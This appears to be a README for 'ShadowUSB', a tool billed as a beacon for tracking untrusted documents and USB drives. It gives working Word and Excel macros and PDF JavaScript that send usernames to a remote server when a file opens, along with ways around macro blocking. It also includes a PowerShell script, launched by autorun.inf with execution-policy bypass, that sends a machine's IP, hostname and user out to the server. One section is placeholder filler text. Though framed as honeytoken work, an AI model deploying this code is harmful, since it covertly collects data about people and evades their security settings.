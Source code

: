 # ShadowUSB
<picture>
<source media="/shadowUSB.jpeg">
</picture>
ShadowUSB is a covert tracking tool designed to monitor and log interactions with untrusted documents and USB drives. By embedding beaconized documents, ShadowUSB tracks when and where files are accessed, offering valuable insights into unauthorized usage. Whether plugged into an unknown machine or opening potentially risky documents, ShadowUSB silently captures the event, providing detailed analytics on user behavior. Ideal for cybersecurity professionals and organizations looking to enhance their threat detection capabilities, ShadowUSB adds an extra layer of security by shedding light on otherwise invisible activities.

## Beaconizing the Doc's
Haxx0r ipsum ascii worm *.* rsa Leslie Lamport it's a feature echo memory leak syn race condition recursively. Packet break root Linus Torvalds case kilo bypass false bytes continue endif sql foad stdio.h pragma chown. Crack else blob infinite loop packet pwned float shell afk.

### Beaconizing Word
Let's beaconize Word. You'll need to have the developer tab in your ribbon for Word. Click VB, make sure your are in ThisDocument, and copy in this code.  Also don't forget to change yourwebserver.com to your server address.
```commandline
Private Sub Document_Open()
    MsgBox "Word Document Opened" ' Debugging message
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=word&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```

Mo Macros, Mo Problems... Your company blocks macros/VB.  No problemo.  We will use a shapes and hyperlinks to bypass this.
```commandline
Steps to Create a Whole-Page Link in Word M365

1. Open your Word Document:

 - Start with the document where you want to add the whole-page link.
 
2. Insert a Shape:

 - Go to the Insert tab.
 - Click on Shapes and choose Rectangle.
 - Draw a rectangle that covers the entire page. You can drag the edges of the shape to ensure it covers the full width and height of the page.

3. Make the Shape Transparent:

 - With the rectangle selected, go to the Format tab.
 - Click on Shape Fill and select No Fill.
 - Click on Shape Outline and select No Outline. This will make the rectangle invisible.

4. Add a Hyperlink to the Shape:

 - Right-click on the shape and select Link (or Hyperlink).  e.g., http://yourserver.com/track?doc=word
 - In the dialog box, enter the URL or the location within the document you want to link to.
 - Click OK.

5. Send the Shape to the Back:

 - With the shape still selected, go to the Format tab.
 - Click on Send Backward > Send to Back to ensure it doesn't cover any text or other content on the page.

6. Test the Link:

 - Save your document and test the link by clicking anywhere on the page.
```

### Beaconizing Excel
Let's beaconize Excel. You'll need to have the developer tab in your ribbon for Excel.  Click VB, make sure you are in ThisWorkbook, and copy in this code.  Also don't forget to change yourwebserver.com/ to your web server address.

Visual Basic [VB]
```commandline
Private Sub Workbook_Open()
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=excel&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```
As you can guess... Most businesses/users would[SHOULD!] have macros disabled.  To bypass this we will use Excels "Get Data" feature and a hyperlink to our tracking web server.
```commandline
- In Excel, go to the "Data" tab and select "Get External Data."
- Choose "From Web" and enter your tracking URL, e.g., http://yourserver.com/track?doc=excel.
- This will trigger a request when the document is opened, but it might also prompt the user.
```
### Beaconizing PDFs

Here we will beaconize our PDFs.  I am using a combination of JavaScript and Tracking URLs.  I am doing this to try to keep things stealthy.  Usernames via web browsers are tricky but I can get IP Addresses and User Agent info that helps track the end user.

JavaScript Code:
```
var viewerApp = app.viewerType;
var viewerVersion = app.viewerVersion;
var user = app.response("Please enter your username:");


var url = "http://yourwebserver.com/tracker?doc=pdf&user=" + encodeURIComponent(user) + "&app=" + encodeURIComponent(viewerApp) + "&version=" + encodeURIComponent(viewerVersion);

app.launchURL(url, true);
```    
Tracking URL:
```commandline
http://yourserver.com/track?id=UniqueID12345
```
## Backend Tracker 
The tracker.py takes care of the back end tracking.  This is a WIP.  It is basic at the moment but tracks and logs to a track.log file.  It currently uses VB and JavaScript, I am working on making it more stealthy to the end user.

To launch the backend tracker:
```commandline
python tracker.py
or
python3 tracker.py
```
### Tracking/Logging Webpage
I added a webpage to the backend script.  It shows a more C-Level easy to read version of the logs.  You can this with your C-Level/non-tech management.  Also makes it easier to read for "1337 h4xx0rs"... I mean cybersecurity professionals.

To access this feature:
```commandline
http://yourserver.com:8000/logs
```

This gives access to Real-Time Updates:  The logs will update each time the page is refreshed, reflecting the most recent tracking events.

## USB Drive [Hardware] tracking
To track the actual USB drive we will use powershell and auto run.  You can do this with python as well. I may implement that later.  As for now powershell works great.

### Powershell Script for tracking[beaconizing] the physical USB drive.
This powershell script is pretty self explanitory.  It will give you the IP Address, Hostname, Username and OS Version of the user that inserted the drive.  Copy this script save it as tracker.ps1  For stealthiness store this tracker.ps1 and the autorun.inf file in a hidden folder on your ShadowUSB drive.
```commandline
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.InterfaceAlias -eq (Get-NetIPConfiguration | Where-Object { $_.NetAdapter.Status -eq 'Up' }).InterfaceAlias } | Select-Object -First 1).IPAddress
$hostname = $env:COMPUTERNAME
$username = $env:USERNAME
$os_version = (Get-WmiObject Win32_OperatingSystem).Version
$user_agent = "$hostname-$username-$os_version"

Invoke-WebRequest -Uri "http://yourwebserver.com/tracker?id=USBTracking&hostname=$hostname&ip=$ip&user=$username&os=$os_version" -UserAgent $user_agent
```

### Autorun via autorun.inf
You can use notepad copy this code and save it as autorun.inf
```commandline
[autorun]
open=powershell -ExecutionPolicy Bypass -File tracker.ps1
action=Run tracking script
label=USB Tracker
```
